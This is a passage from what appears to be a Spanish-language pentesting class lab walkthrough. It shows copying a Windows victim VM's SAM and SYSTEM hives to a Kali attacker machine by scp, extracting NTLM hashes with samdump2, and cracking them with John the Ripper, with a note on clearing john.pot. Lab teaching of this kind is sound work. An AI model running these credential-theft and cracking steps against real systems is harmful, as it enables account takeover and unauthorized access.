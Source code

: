 ### 6. Transferir los Archivos SAM y SYSTEM al atacante

- Previamente, realizar el siguiente comando para identificar la ruta real:

    ```shell
    -sh-4.3$ pwd
    /cygdrive/c/Windows/Temp
    ```

- Usar `scp` o descarga los archivos SAM y SYSTEM desde la máquina víctima a tu máquina atacante para realizar el análisis de los hashes de contraseñas:

    ```shell
    ┌──(user㉿kali)-[~/Downloads]
    └─$ scp vagrant@10.0.2.15:/cygdrive/c/Windows/Temp/SAM .
    vagrant@10.0.2.15's password: 
    SAM                                                                                100%  256KB   3.1MB/s   00:00    
                                                                                                                        
    ┌──(user㉿kali)-[~/Downloads]
    └─$ scp vagrant@10.0.2.15:/cygdrive/c/Windows/Temp/SYSTEM .
    vagrant@10.0.2.15's password: 
    SYSTEM                                                                             100% 7680KB  38.1MB/s   00:00    
                        
    ```

### 7. Extracción de Hashes

Con los archivos SAM y SYSTEM en tu máquina atacante, puedes usar herramientas como samdump2 junto con John the Ripper o Hashcat para extraer y crackear los hashes.

#### Extracción de hashes usando `samdump2`:

- El comando samdump2 SYSTEM SAM > hashes.txt utiliza la utilidad samdump2 para extraer los  hashes de las contraseñas de un sistema Windows.

    ```bash
    samdump2 SYSTEM SAM > hashes.txt
    ```

- Para funcionar, samdump2 requiere dos archivos específicos del registro de Windows: el hive SYSTEM y el hive SAM. El archivo SYSTEM contiene la clave necesaria para descifrar la información almacenada en el archivo SAM (Security Account Manager), que es donde residen los hashes de las contraseñas de los usuarios.

- El comando procesa estos dos archivos, extrae los hashes (normalmente en formato NTLM) y, mediante el operador de redirección >, guarda el resultado en un archivo de texto llamado hashes.txt. Este archivo puede ser usado posteriormente con herramientas de cracking como John the Ripper o Hashcat para intentar obtener las contraseñas en texto plano.

#### Previo delete del archivo que contiene las contraseñas encontradas

- **NOTA**: En clase, al momento de hacer el crackeo de hashes usando `John the Ripper`, no pudimos obtener las contraseñas de manera visual debido a que las contraseñas que `john` encuentra las guarda en el archivo `~/.john/john.pot` y no las vuelve a mostrar de manera explícita en el comando. Para ello, simplemente borramos el archivo de modo que podamos visualizar las contraseñas encontradas. Repetir este proceso algunas veces, si es que a primeras no se muestra la contraseña para los usuarios `Administrator` o `vagrant`.
